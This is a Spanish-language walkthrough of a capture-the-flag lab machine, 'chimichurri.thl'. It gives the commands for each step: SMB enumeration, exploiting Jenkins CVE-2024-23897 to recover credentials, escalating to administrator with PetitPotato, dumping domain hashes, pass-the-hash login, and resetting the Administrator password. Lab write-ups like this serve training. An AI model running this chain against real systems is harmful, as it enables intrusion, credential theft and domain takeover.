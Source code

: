 Haremos el escaneo de nmap:
![[Pasted image 20240701172021.png]]
Vemos el dominio chimichurri.thl:
![[Pasted image 20240701171941.png]]
Intentamos enumerar el puerto 445 los recursos compartidos, aunque no tengamos credenciales:
```bash
smbmap -H 192.168.200.4 -u test
smbclient -L 192.168.200.4
```
Y vemos un recurso compartido llamado drogas:
![[Pasted image 20240701172340.png]]
Entramos al recurso compartido y nos descargamos el archivo de su interior:
```bash
smbclient -N //192.168.200.4/Drogas
```
![[Pasted image 20240701172436.png]]
En el puerto 6969 vemos un jenkins:
![[Pasted image 20240701172547.png]]
Revisamos la vwersión de jenkins y estamos ante la 2.361.4:
```bash
whatweb http://192.168.200.4:6969/
```
![[Pasted image 20240701172630.png]]
Podemos usar el siguiente exploit, ya que estamos ante la vulnerabilidad CVE-2024-23897:
```bash
https://github.com/godylockz/CVE-2024-23897
```
Probamos el exploit de la siguiente forma y funciona:
```python
python3 exploit.py -u http://192.168.200.4:6969
```
![[Pasted image 20240701173115.png]]
Y obtenemos la siguiente contraseña:
```bash
hacker:Perico69
```
Accedemos por winrm:
```bash
evil-winrm -i chimichurri.thl -u hacker -p 'Perico69'
```
![[Pasted image 20240701173241.png]]
Una vez dentro, ejecutamos el comando whoami /priv:
```bash
whoami /priv
```

Para la escalada, usaremos este exploit:
```bash
https://github.com/wh0amitz/PetitPotato/releases
```

Lo compartimos con la máquina y ejecutamos este comando para crear un usuario:
```bash
.\PetitPotato.exe 3 "net user pingu Password1 /add"
```

Y después tenemos que añadir este usuario al grupo de administradores:
```bash
.\PetitPotato.exe 3 "net localgroup Administradores pingu /add"
```

Y una vez añadido accedemos por winrm:
```bash
evil-winrm -i chimichurri.thl -u pingu -p 'Password1'
```

Una vez visto que tenemos acceso con este usuario, usamos impacket-secretsdump para dumpear los hashes del dominio:
```bash
impacket-secretsdump chimichurri.thl/pingu@192.168.0.200.4
```

Y ahora usamos el hash del administrador para acceder mediante pass the hash:
```bash
evil-winrm -i chimichurri.thl -u Administrador -H hash
```

Tenemos acceso pero vemos que no podemos leer la flag de root, por lo que vamos a cambiar la contraseña del usuario administrador:
```bash
net user Administrador Pepino123 /domain
```

Y ahora con evil-winrm ya podremos entrar como administrador:
```bash
evil-winrm -i chimichurri.thl -u Administrador -p 'Pepino123'
```